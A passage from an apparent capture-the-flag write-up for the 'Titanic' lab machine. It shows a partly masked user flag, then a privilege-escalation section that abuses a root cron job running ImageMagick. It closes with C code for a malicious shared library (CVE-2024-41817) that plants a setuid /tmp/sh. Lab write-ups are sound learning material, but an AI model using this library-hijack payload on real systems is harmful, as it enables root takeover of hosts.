 ```

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

developer@titanic:~$ cat user.txt
639663e7f459db62626be43aadff****
```

That's flag number 1!

## Privilege Escalation

There's `/opt/scripts/identify_images.sh`:

```bash
developer@titanic:~$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

developer@titanic:~$ ls -l /opt/app/static/assets/images/metadata.log
-rw-r----- 1 root developer 442 Jul 24 10:41 /opt/app/static/assets/images/metadata.log
```

The script seems to be run every minute by `root`. What can we exploit about `/usr/bin/magick`?

```
$ magick --version

Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma
openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

There is `CVE-2024-41817`. Apparently we can place a shared library in the `images` directory, and it will be loaded by the vulnerable version 7.1.1.

```c
$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
system("cp /bin/sh /tmp && chmod u+s /tmp/sh");
exit(0);
}
EOF
```

